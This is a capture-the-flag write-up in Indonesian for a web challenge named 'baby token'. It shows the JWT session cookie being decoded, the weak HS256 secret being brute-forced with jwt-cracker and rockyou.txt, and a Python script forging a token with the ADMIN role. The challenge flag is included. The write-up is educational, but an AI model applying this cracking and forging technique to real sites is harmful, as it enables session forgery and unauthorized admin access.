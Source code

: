 # baby token

## Solution

Login dengan username/password bebas. Kemudian akses page flag pada website, tertulis pesan
**You are not ADMIN!**, bisa diketahui pada chall ini memanfaatkan metode `jwt` untuk mendapatkan flag.

Salin cookies, kemudian lakukan decode jwt, di sini saya menggunakan jwt.io

Didapatkan hasil seperti berikut

```
#Decoded Header
{
  "alg": "HS256",
  "typ": "JWT"
}

#Decoded Payload
{
  "role": "USER",
  "iat": 1742178604,
  "exp": 1742182204
} 
```

Lalu ubah menjadi
```
"role": "ADMIN",
```

Namun, karena tidak tau secret key nya, bisa dicari menggunakan bruteforce tool (hashcat/jwt-cracker)

```
$ jwt-cracker -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiVVNFUiIsImlhdCI6MTc0MjE3ODYwNCwiZXhwIjoxNzQyMTgyMjA0fQ.LrqXRl535QqGWRT76BTCnpCoGJaKZR3ynQSznuMomt8 -d rockyou.txt
SECRET FOUND: 12341234
Time taken (sec): 0.695
Total attempts: 20000
```
Kemudian, tinggal di decode kembali menggunakan secret key yang didapat, saya menggunakan script untuk mendecodenya

```python
import jwt
import datetime

# Secret key
SECRET_KEY = "12341234"

# Header
header = {
    "alg": "HS256",
    "typ": "JWT"
}

# Payload
payload = {
    "role": "ADMIN",
    "iat": 1742178604,
    "exp": 1742182204
}

# Encode JWT
token = jwt.encode(payload, SECRET_KEY, algorithm="HS256", headers=header)

print("Generated JWT Token:", token)
```

Lalu, tinggal ganti token pada cookies website, lalu refresh dan akses kembali page flag.

## Flag
    ARKAV{g00d_lUck_0n_Th3_N3xt_Ch4ll3ng3_14923857109213}